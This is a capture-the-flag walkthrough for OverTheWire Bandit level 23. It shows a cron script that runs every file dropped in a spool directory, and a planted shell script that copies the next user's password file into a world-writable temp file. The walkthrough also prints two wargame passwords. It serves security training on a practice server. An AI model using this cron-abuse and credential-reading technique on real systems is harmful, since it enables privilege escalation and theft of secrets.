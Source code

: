 <h1>Bandit 23</h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> Looking at shell scripts written by other people is a
very useful skill. The script for this level is intentionally made
easy to read. If you are having problems understanding what it does,
try executing it to see the debug information it prints.</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ ls
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

If we have a file that is owned by ourself in that directory, it will be executed!

```
bandit23@bandit:~$ mkdir /tmp/mytmp
bandit23@bandit:~$ vim /tmp/mytmp/runme.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >> /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ touch /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ chmod 777 -R /tmp/mytmp/
bandit23@bandit:~$ cp /tmp/mytmp/runme.sh /var/spool/bandit24/runme.sh
```

And after waiting a minute:

```
bandit23@bandit:~$ cat /tmp/mytmp/psswrd.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[bandit level 22](22.md)
[bandit level 24](24.md)

